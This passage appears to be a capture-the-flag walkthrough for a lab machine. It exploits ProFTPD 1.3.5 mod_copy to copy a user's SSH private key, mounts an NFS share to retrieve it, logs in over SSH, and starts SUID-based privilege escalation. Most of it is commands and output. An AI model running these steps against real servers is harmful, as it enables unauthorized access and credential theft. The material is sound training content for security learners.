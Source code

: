 
## Exploitation

Connect to the port `21` with the `nc` and try to use `mod_copy` commands:
```
nc 10.10.232.217 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.232.217]
SITE CPFR /home/kenobi/.id_rsa
550 /home/kenobi/.id_rsa: No such file or directory
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
Awesome, we're now have SSH key in the `/var` folder. Let's mount it and grab it:

```
sudo mkdir /mnt/kenobiNFS
sudo mount 10.10.232.217:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
total 56
drwxr-xr-x 14 root root    4096 Sep  4  2019 .
drwxr-xr-x  3 root root    4096 Oct  9 06:45 ..
drwxr-xr-x  2 root root    4096 Sep  4  2019 backups
drwxr-xr-x  9 root root    4096 Sep  4  2019 cache
drwxrwxrwt  2 root root    4096 Sep  4  2019 crash
drwxr-xr-x 40 root root    4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff   4096 Apr 12  2016 local
lrwxrwxrwx  1 root root       9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root crontab 4096 Sep  4  2019 log
drwxrwsr-x  2 root mail    4096 Feb 26  2019 mail
drwxr-xr-x  2 root root    4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root       4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root    4096 Jan 29  2019 snap
drwxr-xr-x  5 root root    4096 Sep  4  2019 spool
drwxrwxrwt  6 root root    4096 Oct  9 06:34 tmp
drwxr-xr-x  3 root root    4096 Sep  4  2019 www
```
Now we should try to use this SSH key, as we know the user name too. Copy the SSH key to some folder, and add the `chmod 600` to it:
```
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.232.217

kenobi@kenobi:~$ whoami
kenobi
```  

---

## PrivEsc
All the "standard" enumeration scripts will pick that up, but it's good to know how to do things by hands.  
The following command can locate all the files with [SUID](https://www.linux.com/training-tutorials/what-suid-and-how-set-suid-linuxunix/) bit (means that they will be executed with the root permissions):
```
find / -perm -u=s -type f 2>/dev/null
```
By reviewing the output we can say that `/usr/bin/menu` is standing out a bit.
You can use the command `strings` to examine the binary:
```
kenobi@kenobi:~$ strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
```